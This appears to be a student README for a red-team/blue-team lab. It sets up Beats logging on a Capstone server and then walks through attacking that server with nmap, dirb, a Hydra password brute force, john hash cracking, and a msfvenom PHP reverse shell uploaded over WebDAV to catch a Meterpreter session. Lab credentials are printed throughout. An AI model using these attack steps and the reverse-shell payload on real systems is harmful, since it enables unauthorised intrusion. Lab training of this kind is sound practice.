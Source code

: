 # Project 2
## RedTeam vs. BlueTeam


### Devices
- Kali
- Capstone
- Elk 

### Set Up Beats 
Need to set up beats in order to log the attacks. 

Steps to set up:
 - Log into Capstone
   - ```vagrant:tnargav```
 - ```sudo su```
 - ```filebeat modules enable apache```
 - ```filebeat setup```
 - ```metricbeat modules enable apache```
 - ```metricbeat setup```
 - ```packetbeat setup```
 - ```systemctl restart filebeat```
 - ```systemdtl restart metricbeat```
 - ```systemctl restart packetbeat```
  

### Attacking Capstone
- Determine capstone ip
  - First find kali ip
    - ```ifconfig```
    - 192.168.1.90
  - Run nmap against 192.168.1.1/24 
    - ```nmap 192.168.1.1/24```
    - Did not give enough information to determine what machine is which
    - ![](Img/nmap1.png)
    - ```nmap -sV 192.168.1.1/24```
      - 192.168.1.100 
        - Elastic Search | Ubuntu
      - 192.168.1.105
        - Apache | Ubuntu
      - ![](Img/nmap2.png)
- Open http://192.168.1.105
  - Try to find "secret" page
    - ```dirb http://192.168.1.105```
      - Returned
        - http://192.168.1.105/server-status
          - Access Forbidden
        - http://192.168.1.105/webdav
          - Username:Password Protected
    - ```dirb http://192.168.1.105/company_folders```
      - Returned 0
    - Scrolled through pages
      - Error file missing please refer to company_folders/secret_folder
       ![](/Img/web4.png)
- Run Hydra against http://192.168.1.105/company_folders_secret_folder
  - Find Wordlist
    - ```locate rockyou```
  - ```cd /usr/share/wordlists```
  - ```ls```
  - ```gunzip rockyou.txt.gz```
  - ```ls```
    - to verify successful unzip
  - ```hydra help```
    - To see all avaliable flags
  - Ashton manages secret folder
    - Means username is ashton 
  - ``` hydra -l ashton -P rockyou.txt -s 80  -f -vV 192.168.1.105 http-get /company_folders/secret_folder ```
    - ```ashton:leopoldo```
     ![](/Img/hydra2.png)
- Open connect to corp server
  - webdav
  - log in with ryans account
  - ryan password hash ``` d7dad0a5cd7c8376eeb50d69b3ccd352 ```
  - ``` echo d7dad0a5cd7c8376eeb50d69b3ccd352 > hash.txt ```
  - ```john hash.txt```
  - ```john -show hash.txt ```
    - ```ryan:linux4u```
- Upload reverse php to webdav
  - ```msfvenom -p php/reverse_php LHOST=192.168.1.90 LPORT=4445 -f raw > exploit.php```
- Create Listener
  - ```msf console```
    - ```use exploit multi/handler```
    - ``` set LHOST 192.168.1.90```
    - ``` set LPORT 4445```
    - ```set exploit php/reverse_php```
    - ```exploit```
- Open exploit.php in web to run on remote server
- Meterpreter session
  - ```cd /```
  - ```ls```
  - ```cat flag.txt```